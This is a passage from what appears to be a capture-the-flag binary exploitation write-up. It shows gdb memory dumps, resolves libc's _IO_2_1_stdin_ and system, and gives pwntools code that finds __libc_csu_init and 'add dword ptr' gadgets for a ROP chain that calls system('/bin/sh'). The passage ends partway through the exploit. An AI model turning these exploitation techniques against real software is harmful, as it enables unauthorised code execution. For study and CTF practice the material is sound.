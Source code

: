 ```
0x404e50:	0x0000000000000000	0x0000000000000000
0x404e60:	0x0000000000000000	0x0000000000000000
0x404e70:	0x000000000040111c	0x00000000004011c4
0x404e80:	0x00000000004011ba	0x0000000000000000
0x404e90:	0x0000000000000001	0x0000000000404ec0
0x404ea0:	0x0000000000000000	0x0000000000000000
0x404eb0:	0x0000000000404d50	0x00000000004011a0
0x404ec0:	0x0068732f6e69622f	0x0000000000000000
0x404ed0:	0x0000000000000000	0x0000000000401160
0x404ee0:	0x0000000000000000	0x0000000000401050
0x404ef0:	0x0000000000000000	0x0000000000000000
0x404f00:	0x0000000000000000	0x000000000040107e
0x404f10:	0x0000000000404f18	0x0000000000404f00
```

At the top notice some interesting looking addresses.  We know they're not stack or base process addresses, both of those are known.  They must be libc.

The first address is `0x404d50: 0x00007fda4f1e5980`; invoking `info symbol` we get:

```
gef➤  i sym 0x00007fda4f1e5980
_IO_2_1_stdin_ in section .data of /lib/x86_64-linux-gnu/libc.so.6
```

Well that was easy.  We can just ignore the rest.  We need to change that to `system`:

```
gef➤  p/x &system
$1 = 0x7fda4f04f410
```

The location of `system` is below `_IO_2_1_stdin_`; we'll have to subtract off the difference, and that is where our second gadget comes in with some help from `__libc_csu_init`:

```python
'''
  4011a0:   4c 89 f2                mov    rdx,r14
  4011a3:   4c 89 ee                mov    rsi,r13
  4011a6:   44 89 e7                mov    edi,r12d
  4011a9:   41 ff 14 df             call   QWORD PTR [r15+rbx*8]
  4011ad:   48 83 c3 01             add    rbx,0x1
  4011b1:   48 39 dd                cmp    rbp,rbx
  4011b4:   75 ea                   jne    4011a0 <__libc_csu_init+0x40>
  4011b6:   48 83 c4 08             add    rsp,0x8
  4011ba:   5b                      pop    rbx
  4011bb:   5d                      pop    rbp
  4011bc:   41 5c                   pop    r12
  4011be:   41 5d                   pop    r13
  4011c0:   41 5e                   pop    r14
  4011c2:   41 5f                   pop    r15
  4011c4:   c3                      ret
'''

set_rdx_rsi_rdi_call_r15 = 0x4011a0
add_dword_ptr_rbp_ebx = binary.search(asm('add dword ptr [rbp - 0x3d], ebx; nop; ret')).__next__()
pop_rbx_rbp_r12_r13_r14_r15 = binary.search(asm('pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret')).__next__()
```

